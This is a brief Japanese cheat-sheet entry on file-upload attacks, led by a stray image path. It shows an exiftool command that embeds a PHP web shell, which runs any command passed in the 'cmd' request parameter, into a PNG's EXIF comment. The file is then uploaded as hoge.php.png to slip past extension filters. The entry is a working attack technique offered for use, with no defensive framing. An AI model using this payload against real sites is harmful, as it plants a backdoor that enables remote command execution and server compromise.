 # Other technic

## exif情報
exifに埋め込む

```
$ exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' hoge.png
```

これでhoge.php.pngとしてupload

